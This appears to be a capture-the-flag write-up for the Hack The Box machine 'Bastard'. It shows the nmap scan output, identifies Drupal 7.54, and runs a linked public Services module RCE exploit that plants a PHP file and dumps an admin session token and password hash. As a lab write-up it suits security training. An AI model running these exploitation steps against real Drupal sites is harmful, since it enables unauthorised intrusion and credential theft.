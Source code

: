 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce) or you can copy it from my [Pastebin](https://pastebin.com/VF0UFu3g)
<br>Now after you copy the exploit from the blog then edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
<br>Now before you run the exploit make sure the main drupal login page is open in your browser or it will show you the error **Failed to login with fake password** or if you still see this error even after opening the login page in browser then revert the machine and try again.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># php exploit.php 
<br>Stored session information in session.json
<br>Stored user information in user.json
<br>Cache contains 7 entries
<br>File written: http://10.10.10.9/dixuSOspsOUU.php
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_id": "NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"token": "Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat user.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"uid": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"name": "admin",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"mail": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"theme": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"created": "1489920428",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"access": "1492102672",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"login": 1513922853,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"status": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"timezone": "Europe\/Athens",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"language": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"picture": null,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"init": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"data": false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"roles": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"2": "authenticated user",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"3": "administrator"
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"rdf_mapping": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"rdftype": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"sioc:UserAccount"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"name": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:name"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"homepage": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:page"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"type": "rel"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>
<br> If you get anyerror like **PHP Fatal error: Uncaught Error: Call to undefine function curl_init()** possibilities are you don't have php-curl installed in your machine so to solve this you just need to downlaod it and and then run the exploit again.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># apt-get install php-curl
